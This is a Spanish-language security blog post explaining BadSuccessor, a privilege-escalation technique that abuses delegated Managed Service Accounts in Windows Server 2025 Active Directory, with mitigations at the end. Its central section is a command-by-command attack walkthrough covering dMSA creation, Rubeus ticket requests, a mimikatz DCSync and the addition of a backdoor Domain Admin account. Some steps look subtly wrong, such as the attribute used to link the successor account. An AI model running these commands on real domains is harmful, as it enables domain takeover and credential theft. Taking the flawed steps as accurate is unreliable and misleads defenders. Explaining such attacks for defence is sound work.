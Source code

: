 ```yaml
---
title: BadSuccessor - Escalada de privilegios abusando de dMSA en Active Directory
date: 2025-05-22 09:00:00 
categories: [CIBERATAQUES]
tags: [ciberseguridad, ciberataque, vulnerabilidad]
description: Yuval Gordon, investigador de Akamai, ha descubierto una técnica avanzada de escalada de privilegios en entornos Windows Server 2025 conocida como BadSuccessor.
image: /assets/136/preview1.png
---
```


Yuval Gordon, investigador de Akamai, ha descubierto una técnica avanzada de escalada de privilegios en entornos Windows Server 2025 conocida como BadSuccessor. Esta técnica depende de una nueva funcionalidad legítima: las Cuentas de Servicio Administradas Delegadas (dMSA).

###  ¿Qué son las dMSA?

Las Delegated Managed Service Accounts (dMSA) fueron introducidas en Windows Server 2025 como una mejora sobre las Managed Service Accounts (MSA) y Group Managed Service Accounts (gMSA). Su objetivo es permitir una gestión centralizada, segura y delegada de cuentas de servicio, incluyendo:

- Rotación automática de contraseñas.
- Restricción por máquina (sólo equipos autorizados pueden usarla).
- Delegación de control para facilitar la administración sin comprometer el principio de privilegios mínimos.

Sin embargo, es precisamente esta capacidad de delegación la que abre la puerta a BadSuccessor.

###  La idea detrás de BadSuccessor

BadSuccessor se basa en el abuso de la funcionalidad que permite delegar la gestión de una dMSA. Mediante esta característica, es posible que una entidad (usuario o grupo) administre otra cuenta de servicio sin necesidad de privilegios directos de dominio.

El problema aparece cuando:

- Una cuenta de bajo privilegio es delegada para gestionar una dMSA privilegiada (por ejemplo, usada por un servicio con permisos elevados).
- Esta cuenta crea una nueva dMSA "sucesora" que se declara como reemplazo de la dMSA original.
- Active Directory acepta al sucesor como legítimo, permitiéndole heredar privilegios y usos de la cuenta original.

Este flujo puede usarse para escalar privilegios dentro del dominio sin explotar vulnerabilidades, sino simplemente configuraciones laxas de delegación.

##  Escenario de ataque

- El atacante crea una nueva cuenta dMSA, por ejemplo: attacker$.
- El atacante modifica los atributos del objeto de AD de la dMSA objetivo (por ejemplo, svc_SQLProd$) para vincular la nueva dMSA (attacker$) como su sucesora.
- El atacante solicita un TGT (Ticket Granting Ticket) a través de Kerberos usando su nueva cuenta attacker$.
- El DC emite un TGT válido para attacker$, que incluye acceso y permisos equivalentes a los de la cuenta original (target user, como svc_ejemplo$). Como resultado, el atacante actúa con privilegios heredados. Si la dMSA original era miembro de grupos como Domain Admins, ahora attacker$ tiene acceso al dominio completo.

<img src="/assets/136/136-01.png"  width="500" height="500">

###  Requisitos del ataque

- Control parcial o total de una cuenta con delegación sobre una dMSA privilegiada.
- Acceso a un entorno de dominio con controladores de dominio actualizados a Windows Server 2025.
- Conocimiento de las estructuras de delegación en Active Directory.

###  Ejemplo - Escenario de ataque completo: De usuario delegado a Domain Admin

**Infraestructura del laboratorio**
- Dominio: lab.local
- DC: DC01.lab.local (Windows Server 2025)
- Cuenta dMSA privilegiada: svc_SQLProd$ (usada por un SQL Server miembro de Domain Admins)
- Usuario con delegación: john.smith (puede gestionar la cuenta svc_SQLProd$)

**Objetivo**

Elevar privilegios desde john.smith hasta obtener un TGT como svc_SQLProd$, lo cual permite realizar acciones como un Domain Admin.

**1. Verificar delegación sobre la dMSA**

    Get-ACL "AD:\CN=svc_SQLProd$,CN=Managed Service Accounts,DC=lab,DC=local" | Format-List

Verifica que john.smith tenga permisos como WriteProperty, GenericAll, o similares.

**2. Crear una dMSA sucesora**

    New-ADServiceAccount -Name "svc_Malicious" -RestrictToOutboundAuthenticationOnly:$true
    
    # Delegar la gestión (herencia/sucesión)
    Set-ADObject -Identity "CN=svc_SQLProd$,CN=Managed Service Accounts,DC=lab,DC=local" \
      -Add @{"msDS-ManagedBy"="CN=svc_Malicious,CN=Managed Service Accounts,DC=lab,DC=local"}

Este paso vincula la nueva dMSA como sucesora, heredando la funcionalidad de la original. 

**3. Instalar la dMSA en una máquina autorizada**

    Install-ADServiceAccount -Identity svc_Malicious
    Test-ADServiceAccount -Identity svc_Malicious

**4. Obtener el secreto gestionado (hash o contraseña)**

Instala el módulo RSAT si es necesario:

    Import-Module ActiveDirectory
    Get-ADServiceAccount svc_Malicious -Properties msDS-ManagedPassword

Alternativamente, usa PowerView o DSInternals para extraerlo:

    Get-ADComputerServiceAccountKey -AccountName svc_Malicious

**5. Solicitar un TGT con Rubeus**

    Rubeus.exe asktgt /user:svc_Malicious$ /rc4:<NTLM_HASH> /domain:lab.local

Y cargarlo en la sesión actual:

    Rubeus.exe ptt /ticket:<base64_TGT>

**6. Acciones como Domain Admin**
   
Si svc_SQLProd$ es miembro de Domain Admins, ahora el atacante puede:

    # Enumerar controladores
    nltest /dclist:lab.local
    
    # DCSync
    mimikatz "lsadump::dcsync /user:Administrator"
    
    # Agregar usuario administrador
    net user backdoor P@ssw0rd! /add
    dsmod group "CN=Domain Admins,CN=Users,DC=lab,DC=local" -addmbr "CN=backdoor,CN=Users,DC=lab,DC=local"

### Mitigaciones recomendadas

1. **Auditar la delegación de control** en cuentas de servicio: ninguna cuenta de bajo privilegio debería tener permisos sobre cuentas usadas por servicios críticos.

2. **Revisar el uso de sucesores** en configuraciones de dMSA: documentar qué cuentas pueden sustituir a otras.

3. **Limitar la creación de nuevas dMSA** a roles administrativos específicos y supervisados.

4. **Supervisar cambios en objetos dMSA** mediante logging y SIEM.

### Conclusión

BadSuccessor es un excelente ejemplo de cómo una funcionalidad legítima puede transformarse en un vector de ataque si no se configura correctamente. La aparición de dMSA en Windows Server 2025 introduce ventajas significativas para la gestión de servicios, pero también requiere una revisión cuidadosa de las políticas de delegación. Este tipo de investigaciones demuestran que la seguridad no está sólo en los parches, sino en el diseño y la gobernanza del entorno.






